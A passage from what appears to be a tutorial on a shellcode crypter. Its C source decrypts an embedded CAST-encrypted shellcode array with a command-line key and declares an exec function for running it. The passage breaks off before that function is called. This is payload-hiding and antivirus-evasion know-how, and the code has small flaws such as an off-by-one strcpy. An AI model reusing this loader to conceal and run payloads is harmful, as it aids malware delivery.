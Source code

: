Once this is done, we get the crypted shellcode. We paste it in the decrypt.c file in order to proceed to the crypting then run the shellcode.  

## Decrypting ##

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <openssl/cast.h>

void affichageVar(unsigned char* tab, int length, char *name);
void affichage(unsigned char* tab, int length, char* name);
void exec(unsigned char* shellcode);

int main(int argc, char *argv[])
{
    CAST_KEY key;

    if (argc < 2)
    {
        printf ("usage ./decrypt [key]\n");
        exit(1);
    }

    // We define here the key
    unsigned char key_data[CAST_KEY_LENGTH]; 

    if (strlen(argv[1]) != 16)
    {
        printf("Taille de le clé incorrecte");
        exit(1);
    }
    strcpy(key_data, argv[1]);


    // We define the Interupt Vector
    unsigned char iv[CAST_BLOCK];
    unsigned char iv_data[CAST_BLOCK] = {
        0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef
    };

    
    unsigned char shellcode[] = \		"\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34\x89\x0b\x96\x6f\x19\x48\x4a\xda";

	// Round up the length to a multiple of 16 */
    int length  = (int)(strlen(shellcode) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char* origin  = (char*) malloc(sizeof(char) * length); 

    // Copy the IV data to the IV array 
    memcpy(iv, iv_data, CAST_BLOCK);
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Set the key
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);
    
    // decrypt, store the decrypted shellcode into origin
    CAST_cbc_encrypt(shellcode, origin, length, &key, iv, CAST_DECRYPT);
```